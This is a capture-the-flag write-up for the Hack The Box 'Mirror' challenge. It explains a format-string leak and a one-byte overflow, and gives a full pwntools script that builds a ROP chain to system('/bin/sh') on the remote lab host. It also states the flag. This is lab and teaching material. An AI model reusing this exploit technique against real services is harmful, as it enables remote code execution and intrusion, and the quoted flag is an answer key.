

# Mirror

The application has two vulnerabilities which allow to gain remote code execution. The first is user-controlled format string which provides the attacker with an ability to read arbitrary stack values.
Using this vulnerability, it is possible to calculate binary base address as there is QWORD on stack which value has fixed offset inside the binary. This value is used later.
Next the binary leaks rax value and printf_address. First value is used to calculate stack alignment and find appropriate value used as one-byte overwrite in the next vulnerability. Second value allows to determine libc base address and, consequently, addresses of /bin/sh string and system function inside libc. Exact version of libc was found with libc database – thanks to the fact that same functions in different libc versions have different last 1,5 bytes.
The main vulnerability is in function reveal. The binary overflows the buffer with one byte. Thus, using rax value, it is possible to determine location of user-controlled string and use ordinary ROP-chain to gain remote code execution. There is no seccomp protection in the task.
The following code will give us an interactive shell:

```Python
from pwn import *
context.terminal = ['terminator', '-e']
def hex_to_number(S):
    binary_address = bytes.fromhex(S.decode()[2:])
    while len(binary_address) < 8:
        binary_address = b"\x00" + binary_address
    binary_address = u64(binary_address, endian='big')
    return binary_address
io = remote("docker.hackthebox.eu", 30326)
d = io.recvuntil(b"> ")
print(d)
io.sendline(b"y "+b"%p %10$p")
d = io.recvline()
print(d)
binary_address = d.strip().split(b' ')[-1]
binary_address = hex_to_number(binary_address)
binary_delta = 0x1330
binary_base = binary_address - binary_delta
print("Binary base:", hex(binary_base))
print(d)
d = io.recvuntil(b"craftsman.. ")
print(d)
d = io.recvline()
print(d)
address1 = d.split(b" ")[0][1:-1]
rax = hex_to_number(address1)
address2 = d.split(b" ")[1][1:-3]
printf_address = hex_to_number(address2)
print(hex(rax), hex(printf_address))
off_byte = (rax & 0xff) - 0x08
print(off_byte)
d = io.recv()
print(d)    
pop_rdi_delta = 0x0000000000001393
pop_rdi_address = binary_base + pop_rdi_delta
bin_sh_address = printf_address + 0x131d3c
system_address = printf_address - 0xdbd0
bin_sh_address = printf_address + 0x14eeaa
system_address = printf_address - 0x15a20
payload = p64(pop_rdi_address) + p64(bin_sh_address) + p64(system_address) + b"A"*8 + off_byte.to_bytes(1, byteorder='little')
io.sendline(payload)
io.sendline("ls")
io.interactive()
```

The successful exploitation can be seen on Figure 1.
 


Figure 1 – The successful exploitation

Flag: HTB{0n3_byt3_cl0s3r_2_v1ct0ry}.
